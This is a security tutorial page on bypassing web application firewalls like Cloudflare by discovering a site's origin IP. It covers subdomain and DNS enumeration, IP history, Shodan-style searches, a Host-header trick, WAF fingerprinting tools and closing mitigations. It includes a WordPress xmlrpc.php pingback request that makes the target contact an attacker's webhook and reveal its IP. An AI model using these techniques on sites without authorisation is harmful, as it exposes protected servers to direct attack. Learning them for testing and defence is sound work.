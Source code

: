 ```yaml
---
title: Firewall Bypassing - Databased Index
permalink: /waf-bypassing
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">

### <ins>Type of vulnerability: Information Disclosure (CWE-200)</ins>

### What is a firewall?
Firewalls, or WAFs ___(Web Application Firewall)___, are filters and rules of access that serve as a sort of "gateway" to keep your website secure. Basically keeping your website safe from threats and potential vulnerabilities that could be easily exploited if you otherwise didn't have a WAF. 

The most commonly used WAF is Cloudflare, for being easy to setup and maintain. But Cloudflare isn't all that secure as people may think and your common _"top 10 best firewalls to keep your website secure"_ may suggest.

Since it is one of the easiests WAFs to setup, it is also one of the easiests WAFs to bypass if you don't know how to setup your website correctly or you just don't have full access to the things you are managing on your website, which, in most cases, can paint a bright red target on your website's back.

### What are you looking for when bypassing a firewall?

A subdomain that's not being tunnelled through the WAF or the ___origin IP___ of the website, aka: the IP behind the firewall.

The firewall itself might have its own IP, which is the case for Cloudflare. The firewall's IP is not directly accessible.

### What can a bypass leave you vulnerable to?
It depends on how much information an attacker has on your website, if they already have found a potential vulnerability and the depth of understanding they may have on your website

This can vary from a simple XSS to a full blown Remote Code Execution vulnerability.

But anyway, you're probably not here to read my personal comments on firewalls and how they can give you a false sense of security at times.

Usually the only thing stopping an attacker from gaining complete access to your website is the firewall, which if not setup correctly, can be just a glass door waiting for a brick to be thrown through it.

So,
### How to bypass WAFs?

There are multiple ways to do that, and all of them are pretty easy, given the right conditions (which are usually the case).

#### <ins>Subdomain Method</ins>

This is the easiest one since it doesn't even involve interacting directly with the target, but instead just enumerating all of the target's subdomains, along with their IP addresses. In most cases, the website will just have an unprotected IP that can be accessed directly with no real issue

|Resources|Status|Price|
|---------|------|-----|
|[subdomainfinder.c99.nl](https://subdomainfinder.c99.nl/)|✅UP|Free|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|
|[Anubis (tool)](https://github.com/jonluca/Anubis)|✅UP|Free|

In some cases the server will be setup in such a way that even if the unprotected IP is accessed directly, it will still show different results from the target. In such occasions, it ___might___ mean that the IP is being shared with other hosts.
In case of the IP being shared, the discrepancy in results can be easily circumvented by setting your Host request headers as the website's URL and not the IP itself.

FOR THE SITUATION DESCRIBED ABOVE, instead of doing:
```
POST /  HTTP 1.1
Host: <Target Unprotected IP>
```

Do

```
POST /  HTTP 1.1
Host: <Target URL(Without HTTPS)>
```

That way the IP can still be accessed directly if you search it up in your searchbar, but the server will be receiving requests for the protected URL instead, thus not only rendering the website's content but also verifying that the IP in fact belongs to that URL.

___PS: The IP you search up in the searchbar has to be linked to the URL you set in the "Host" header for the contents to load, since that's how the server distinguishes what website is being requested from the shared IP___

#### <ins>DNS Record Method</ins>
When looking for IPs and unprotected subdomains, it's also important to look for IPs or domains listed mainly in **MX** and **TXT** records.

|Resources|Status|Price|
|---------|------|-----|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[dig](https://command-not-found.com/dig)|COMMAND|Free|

#### <ins>IP History Method</ins>
This method is also pretty easy. You can just get a list of the IPs that were used by the website along time. 

|Resources|Status|Price|
|---------|------|-----|
|[viewdns.info](https://viewdns.info/)|✅UP|Free|


#### <ins>Forensics Search Method</ins>
This basically involves searching up the domain on the following websites.  

|Resources|Status|Price|
|---------|------|-----|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|

#### <ins>XMLRPC.php Method (Wordpress exclusive)</ins>
If the target uses Wordpress, it is also very likely to have XMLRPC enabled. (In some cases it doesn't tho, so that's when the rest of the things earlier apply).

To bypass a WAF protecting a wordpress domain, the following method is followed:

```
POST /xmlrpc.php HTTP/1.1
Host: TARGET_URL
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>WEBHOOK_UNIQUE_URL</string>
  </value>
 </param>
 <param>
  <value>
   <string>VALID_POST_FROM_TARGET</string>
  </value>
 </param>
</params>
</methodCall>
```

This is an old one but incredibly still effective!

What the attacker does is basically:

> Replace the ```TARGET_URL``` with the url of the website.

> Replace ```WEBHOOK_UNIQUE_URL``` with a webhook that will be used to catch the pingback response

> Replace ```VALID_POST_FROM_TARGET``` with a post that's been made on the website

> I.E: https://example.com/2025/03/10/is-a-nuclear-powered-marine-sector-a-possibility/

|Resources|Status|Price|
|---------|------|-----|
|[webhook.site](https://webhook.site/)|✅UP|Free|

#### <ins>Fingerprinting WAFs</ins>
Fingerprinting a WAF can be done in some ways, but the main ones are by using automation tools or manually.

Doing it manually requires you to analyze the behavior of the website to certain actions you take in it, such as trying to XSS an input field or uploading a malicious file. Also analyzing response headers and cookies for clues. 

Cloudflare can be easily spotted because of the custom 'cf-*' headers it sets.

Automation tools:

|Resources|Status|Price|
|---------|------|-----|
|[SuIP.biz](https://suip.biz/)|✅UP|Free|
|[Wappalyzer](https://www.wappalyzer.com/)|✅UP (Add-On)|Free|
|[Wafw00f](https://github.com/EnableSecurity/wafw00f)|✅UP|Free|
|[Nikto](https://github.com/sullo/nikto)|✅UP|Free|

#### <ins>Mitigating Attacks</ins>
To avoid getting your website's origin IP leaked, here are some steps you could take:

- Make sure to tunnel all subdomains through your WAF.
- Do not set your website's IP as an MX IP, instead use other mailing services as MX records cannot be proxied.
- Make sure that if/when the Origin IP leaks, your code is secure enough to handle input tampering.
- Setup your server in a way that forbids a client to connect directly do the IP, hitting the client with either a 403 status or a redirect to the main page.
- Check if the Host header and the requested base URL match
- Set the backend to only accept requests from the main website. This can be done via CORS.
